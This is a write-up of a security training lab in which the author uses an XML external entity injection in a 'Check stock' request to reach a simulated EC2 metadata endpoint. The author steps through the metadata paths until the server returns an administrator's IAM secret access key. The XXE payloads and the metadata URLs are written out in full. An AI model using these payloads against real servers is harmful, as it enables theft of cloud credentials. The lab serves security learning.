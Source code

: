 # Description
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the vulnerability to perform an that obtains the server's IAM secret access key from the EC2 metadata endpoint.

# Process
To begin, I opened the product page and pressed the "Check stock" button, which I intercepted in Burp Suite. The request body looked like this:
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
	<productId>17</productId>
	<storeId>1</storeId>
</stockCheck>
```
To begin, I inserted a DTD to create an external entity that referenced the given IP address, and added the entity's name inside the first child tag:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE abc [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck>
	<productId>&xxe;</productId>
	<storeId>1</storeId>
</stockCheck>
```

This resulted in a simple response, which included this line:
```
"Invalid product ID: latest"
```

This was, presumably, a list of the subdirectories within the external site that I could navigate to. I added that to the DTD:
```
<!DOCTYPE abc [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]>
```
and received another response:
```
"Invalid product ID: meta-data"
```

I kept following the path until I reached the end. The final DTD was:
```
<!DOCTYPE abc [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```
and it led to the administrator's secret access key and token. This solved the lab.